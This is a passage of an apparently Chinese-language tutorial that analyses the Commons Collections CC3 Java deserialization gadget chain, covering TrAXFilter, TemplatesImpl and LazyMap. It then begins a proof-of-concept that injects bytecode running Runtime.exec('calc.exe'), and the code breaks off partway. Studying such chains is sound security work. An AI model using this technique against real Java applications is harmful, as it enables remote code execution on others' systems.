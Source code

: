 ![image-20220119165813302](images/1.png)

在该类的构造方法中，调用了传入参数的`newTransformer()`方法，看到这个方法有点熟悉了，可以实现命令执行，并且参数可控；

CC2中，就是在`InvokerTransformer.transform()`中通过反射调用`TemplatesImpl.newTransformer()`方法，而CC3中，就可以直接使用`TrAXFilter`来调用`newTransformer()`方法

而前面走调用transform方法则可以用CC1的LzayMap的动态代理

# 利用链分析

POC

```
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC3payload {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        STU.writeFile();
        byte[] bytes = STU.toBytecode();
        byte[][] targetbytes = new byte[][]{bytes};

        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFiledValue(templates,"_bytecodes",targetbytes);
        setFiledValue(templates,"_name","DawnT0wn");
        setFiledValue(templates,"_class",null);
```